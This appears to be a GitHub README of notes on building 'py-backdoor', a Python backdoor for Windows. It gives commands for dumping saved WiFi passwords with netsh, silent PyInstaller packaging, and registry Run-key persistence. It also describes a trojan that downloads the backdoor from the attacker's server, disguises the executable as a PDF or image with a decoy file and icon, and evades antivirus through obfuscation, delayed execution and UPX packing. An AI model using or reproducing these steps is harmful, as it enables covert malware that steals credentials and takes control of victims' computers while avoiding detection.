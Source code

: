 ## py-backdoor
- Initial Execution
- ![Screenshot 2024-08-07 002322.png](./assets/Screenshot_2024-08-07_002322_1722970924517_0.png)
- Execution after Boot [ Windows-Persistence]
- ![Screenshot 2024-08-07 002050.png](./assets/Screenshot_2024-08-07_002050_1722970918144_0.png)
### </>
- **WiFi-Password Extraction**
	- To show all networks - `netsh wlan show profile`
	- To display details of a particular network - `netsh wlan show profile <network name> key=clear`
### Packaging - Download and Execute
- `Pyinstaller`
	- `pip install pyinstaller` - convert `.py` to executables
		- **note:** architecture of the target and the attack machine must be the same for this to work
		- `pyinstaller client.py --onefile`
		- `pyinstaller backdoor.py --onefile --noconsole -n client.exe`
- **Silent Execution**
	- `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console`pyinstaller client.py --onefile --noconsole`
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
				-
				  ```
				  DEVNULL = open(os.devnull,'wb')
				  return subprocess.check_output(command, 
								shell=True,
								stderr=DEVNULL,
								stdin=DEVNULL)
				  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target need an internet connection when running the trojan
	- Malware files have to be accessible via direct URL
### Packaging - Combine Dummy w/ Backdoor
- `pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe`
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	-
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
- **mask executable** with `.ICO`
	- `pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>`
	- ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- `./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe`
- `IDAPro` can be used to modify the binary itself
